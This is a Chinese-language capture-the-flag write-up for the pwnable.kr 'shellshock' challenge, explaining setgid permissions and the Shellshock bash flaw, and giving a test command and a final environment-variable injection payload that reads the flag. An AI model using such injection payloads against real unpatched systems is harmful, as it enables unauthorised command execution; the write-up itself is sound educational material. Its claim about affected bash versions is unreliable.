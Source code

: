 ```yaml
---
layout: post
title: pwnable.kr - Shell Shock
slug: pwnable.kr - Shell Shock
category: PWN
published: true
---
```


pwnable.kr - shellshock

```bash
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)
```

#### 一、用户权限问题

Linux下文件的权限查看:

```
shellshock@pwnable:~$ ls -al
total 980
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

可以看到`flag`是需要shellshock_pwn的权限才能读取的。

source code:

```bash
shellshock@pwnable:~$ cat shellshock.c
#include <stdio.h>
int main(){
 setresuid(getegid(), getegid(), getegid());
 setresgid(getegid(), getegid(), getegid());
 system("/home/shellshock/bash -c 'echo shock_me'");
 return 0;
}
```

`setresuid`和`setresgid`的作用：

 setresuid() sets the real user ID, the effective user ID, and the
    saved set-user-ID of the calling process.

 setresuid() sets the real user ID, the effective user ID, and the
       saved set-user-ID of the calling process.

这两个函数的参数都是`getegid()`，也就是`shellshock_pwn`，所以执行到`system`时已经具有`shellshock_pwn`的权限了。

#### SHELL SHOCK

需要利用到的是bash在4.1以下版本的一个漏洞**shellshock**，文末附相关资料。可以测试下是否有该漏洞：

```bash
env x='() { :;}; echo vulnerable' ./bash -c "cat ./flag"
```

如果打印了`vulnerable`,就说明有该漏洞了。

解释下这个漏洞的一些涉及点：

1. bash中支持自定义函数，使用函数名即可调用
2. `initialize_shell_variables`这个函数用于遍历并解析当前环境变量，是在bash运行程序时执行的
3. `initialize_shell_variables`解析逻辑存在漏洞，特定格式的环境变量的值可以注入代码执行
4. 特定格式： `env x='() { :;}; bash -c "cat ./flag"`。这个值在解析时候会执行`bash -c "cat ./flag"`

#### PWN

如何通过这个漏洞读取flag，就是执行`shellshock程序`，该程序中有一行系统调用`system("/home/shellshock/bash -c 'echo shock_me'");`，这会导致环境变量被遍历并解析，而此时又已经有读取`flag`的权限了。

所以最后的payload:

```bash
env x='() { :;}; bash -c "cat ./flag"' ./shellshock
```

#### Reference

[ShellShock漏洞原理分析](https://developer.aliyun.com/article/53608)
